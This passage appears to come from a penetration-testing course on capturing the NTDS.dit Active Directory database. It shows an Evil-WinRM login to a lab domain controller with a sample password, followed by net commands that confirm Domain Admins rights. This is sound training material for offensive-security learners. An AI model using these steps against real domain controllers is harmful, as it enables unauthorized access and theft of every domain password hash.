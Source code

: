  On any Windows operating system, an admin can navigate to `Event Viewer` and view the Security events to see the exact actions that were logged.

----

Once we have discovered some credentials, we could proceed to try to gain remote access to the target domain controller and capture the NTDS.dit file.
## Capturing NTDS.dit
`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.

#### Connecting to a DC with Evil-WinRM
```shell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Checking local group membership
Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

```shell-session
*Evil-WinRM* PS C:\> net localgroup
...
...
```
We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

#### Checking user account privileges including domain
```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```
